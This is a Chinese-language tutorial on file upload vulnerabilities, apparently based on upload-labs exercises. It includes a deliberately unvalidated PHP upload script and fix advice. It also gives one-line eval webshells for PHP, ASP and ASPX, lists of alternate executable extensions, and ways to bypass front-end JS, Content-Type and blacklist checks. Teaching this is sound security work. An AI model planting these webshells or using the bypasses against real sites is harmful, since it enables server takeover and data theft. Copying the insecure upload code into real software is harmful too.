# 03.文件上传漏洞

## 1. 概述

文件上传漏洞是指由于程序员未对上传的文件进行严格的验证和过滤，而导致的用户可以越过其本身权限向服务器上传可执行的动态脚本文件。如常见的头像上传，图片上传，oa 办公文件上传，媒体上传，允许用户上传文件，如果过滤不严格，恶意用户利用文件上传漏洞，上传有害的可以执行脚本文件到服务器中，可以获取服务器的权限，或进一步危害服务器。

### 1.1 危害

非法用户可以上传的恶意文件控制整个网站，甚至是控制服务器，这个恶意脚本文件，又被称为 webshell，上传 webshell 后门 很方便地查看服务器信息，查看目录，执行系统命令等。

## 2. 原理分析

文件上传的过程

选择发送的文件→服务器接受→网站程序判断→临时文件→移动到指定的路径

```php
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <?php
    if(isset($_POST["submit"])){
        if ($_FILES["file"]["error"] > 0) {
            echo "Error: " . $_FILES["file"]["error"] . "<br />";
        } else {
            echo "文件名: " . $_FILES["file"]["name"] . "<br />";
            echo "文件类型: " . $_FILES["file"]["type"] . "<br />";
            echo "文件大小: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />";
            echo "临时存放位置: " . $_FILES["file"]["tmp_name"] . "<br />";
    
            $file_name = iconv('utf-8', 'gbk', $_FILES["file"]["name"]);
            $path = "upload/";
            if(!is_dir($path)){
                mkdir($path);
            }
            if (file_exists($path . $file_name)) {
                echo $_FILES["file"]["name"] . " 文件已存在";
            } else {
                move_uploaded_file(
                    $_FILES["file"]["tmp_name"],
                    $path . $file_name
                );
                echo "已保存: " . $path . $_FILES["file"]["name"];
            }
        }
    }
    ?>
    <form action="" method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <input type="submit" name="submit" value="提交">
    </form>
</body>

</html>
```

### 2.1 文件上传漏洞

文件上传漏洞分为：

1. 直接文件上传，属于高危漏洞的一种，能直接getshell，而且没有任何限制，攻击者很容易通过上传点，获取网站的控制权限；
2. 有条件的上传漏洞，这种漏洞一般是开发者经验不足，对文件上传做了简单的限制，如简单的前端认证；
3. 文件头文件检测，这种检测行为，可以完全绕过的；
4. 权限认证没处理，没有对文件上传页面进行权限认证，匿名者就能访问上传文件，上传网页后门到网站目录，控制整个网站；
5. 上传逻辑有问题，导致文件上传可以被绕过，上传后门到网站上。
6. 有的文件上传漏洞则是通过中间件或者系统特性上传可以被服务器解析脚本文件，从而导致网站可被控制。

### 2.2 文件上传漏洞的修复方案

+ 在网站中需要存在上传模块，需要做好权限认证，不能让匿名用户可访问。
+ 文件上传目录设置为禁止脚本文件执行。这样设置即使被上传后门的动态脚本也不能解析，导致攻击者放弃这个攻击途径。
+ 设置上传白名单，白名单只允许图片上传如，jpg png gif 其他文件均不允许上传
+ 上传的后缀名，一定要设置成图片格式如 jpg png gif

### 2.3 文件上传的攻击方法

寻找测试网站的文件上传的模块，常见 头像上传，修改上传，文件编辑器中文件上传，图片上传、媒体上传等，通过抓包上传恶意的文件进行测试，上传后缀名 asp php aspx 等的动态语言脚本，查看上传时的返回信息，判断是否能直接上传，如果不能直接上传，再进行测试上传突破，例如上传文件的时候只允许图片格式的后缀，但是修改文件时，却没有限制后缀名，图片文件可以修改成动态语言格式如 php，则可能访问这个文件的 URL 直接 getshell，可以控制网站。

### 2.4 一句话木马

可执行脚本的文件后缀名，可被网站目录解析。以下是常见的后缀名

```plain
asp
asa
cdx
cer
php
aspx
ashx
jsp
php3
php.a
shtml
phtml
有些网站会对 asp 或者 php 进行过滤转成空可用这些后缀名。
aspasp asaspp
phpphp
```

一句话木马可以让服务器执行入侵者指定的命令

```plain
php的一句话木马： <?php @eval($_POST['pass']);?>
asp的一句话是：   <%eval request ("pass")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

将php的一句话木马上传到服务器上



让服务器执行cmd命令

查看服务器php环境



执行cmd命令





查看后端php源码，这个就等于直接暴露数据库密码等敏感信息了



更多的木马利用等待后续webshell章节

## 3. 任意文件上传漏洞

### 3.1 简介

任意文件上传漏洞又名文件直接上传漏洞 这种漏洞危害极大，如果攻击者能直接上传恶意脚本到网站存放的目录，且这个目录可解析动态脚本语言，那么攻击者就能够直接获取网站权限，甚至进一步权限提升，控制服务器。

### 3.2 实战





## 4. 绕过前端 js 检测上传

### 4.1 简介

在文件上传时，用户选择文件时，或者提交时，有些网站会对前端文件名进行验证，一般检测后缀名，是否为上传的格式。如果上传的格式不对，则弹出提示文字。此时数据包并没有提交到服务器，只是在客户端通过 js 文件进行校验，验证不通过则不会提交到服务器进行处理。



### 4.2 代码分析



### 4.3 绕过 js 检测方法

1、按 F12 使用网页审计元素，把校验的上传文件后缀名文件删除，即可上传。 

2、把恶意文件改成 js 允许上传的文件后缀，如 jpg、gif、png 等，再通过抓包工具抓取 post 的数据包，把后缀名改成可执行的脚本后缀如php 、asp、jsp、net 等，即可绕过上传。

#### 4.3.1 删除 js 文件







### 4.4 抓包修改后缀名

先把muma.php的后缀名改为jpg





## 5. 绕过 content-type 检测上传

### 5.1 简介

有些上传模块，会对 http 的类型头进行检测，如果是图片类型，允许上传文件到服务器，否则返回上传失败。因为服务端是通过content-type 判断类型，content-type 在客户端可被修改。则此文件上传也有可能被绕过的风险。

[https://www.runoob.com/http/http-content-type.html](https://www.runoob.com/http/http-content-type.html)

### 5.2 代码分析

pass-02

首先进行 submit 提交判断，再检测文件类型如果是 image/jpeg 或者 image/png，即允许上传。



### 5.3 上传攻击



## 6. 黑名单绕过上传

### 6.1 简介

上传模块，有时候会写成黑名单限制，在上传文件的时获取后缀名，再把后缀名与程序中黑名单进行检测，如果后缀名在黑名单的列表内，文件将禁止文件上传。

### 6.2 代码分析

pass-03

首先是检测 submit 是否有值，获取文件的后缀名，进行黑名单对比，后缀名不在黑名单内，允许上传。



### 6.3 上传攻击

上传图片时，如果提示不允许 php、asp 这种信息提示，可判断为黑名单限制，上传黑名单以外的后缀名即可。

在 iis 里 asp 禁止上传了，可以上传 asa cer cdx 这些后缀，如在网站里允许.net执行 可以上传 ashx 代替 aspx。如果网站可以

执行这些脚本，通过上传后门即可获取 webshell。

在不同的中间件中有特殊的情况，如果在apache可以开启application/x-httpd-php，

在 AddType application/x-httpd-php .php .php3 .phtml后缀名为.phtml、.php3均被解析成php，有的apache版本默认开启。

上传目标中间件可支持的环境的语言脚本即可，如.phtml、php3。

